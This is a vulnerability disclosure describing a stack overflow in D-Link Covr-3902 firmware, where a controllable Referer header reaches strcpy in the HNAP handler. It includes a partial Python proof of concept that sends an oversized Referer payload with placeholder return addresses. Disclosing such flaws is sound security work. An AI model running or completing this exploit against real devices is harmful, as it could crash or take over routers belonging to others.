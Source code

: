 # Covr-3902 stack overflow vulnerability
## Overview
Manufacturer's website:[http://www.dlink.com.cn/](http://www.dlink.com.cn/)

Firmware download website:[http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=Covr-3902](http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=Covr-3902)
## Affected version
FW101b05
## Vulnerability details
In the function `sub_24E28`, the `HTTP_REFERER` is obtained through an environment variable, and this field is controllable, allowing it to be used as the value for `src`.
![](./_v_images/20240812131205937_2109.png)

When the field value does not match the field within the program, it enters the `else` branch.
![](./_v_images/20240812123056250_20357.png)

The stack overflow is achieved through the `strcpy` function, which overwrites the return address, and the address is controllable.
![](./_v_images/20240812142111525_6038.png)

## POC
```python
import requests
from pwn import *
payload = (
    b"http://192.168.0.1/SystemPayload"
    + payload_value
    + p32(0xdeadbeef)
    + payload_value2
    + p32(0xdeadbeef)
    + p32(0xdeadbeef)
    + cyclic(0x400)
)
# URL encode the payload to make it safe for use in the Referer header
burp0_url = "http://192.168.0.1:80/HNAP1/"
burp0_cookies = {"uid": "YAQEECTwfI"}
burp0_headers = {
    "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0",
    "Accept": "*/*",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate, br",
    "Content-Type": "text/xml; charset=utf-8",
    "SOAPAction": "\"http://purenetworks.com/HNAP1/GetDeviceFeatureAlpha\"",
    "HNAP_AUTH": "6E2565C8AE7008FF550E57BEB55A8FEE 1723345713",
    "Content-Length": "318",
    "Adcheck": "65535",
    "X-Requested-With": "XMLHttpRequest",
    "Origin": "http://192.168.0.1",
    "Connection": "close",
    "Referer": payload  
}
response = requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies)
print("Response Status Code:", response.status_code)
print("Response Content:", response.text)
```
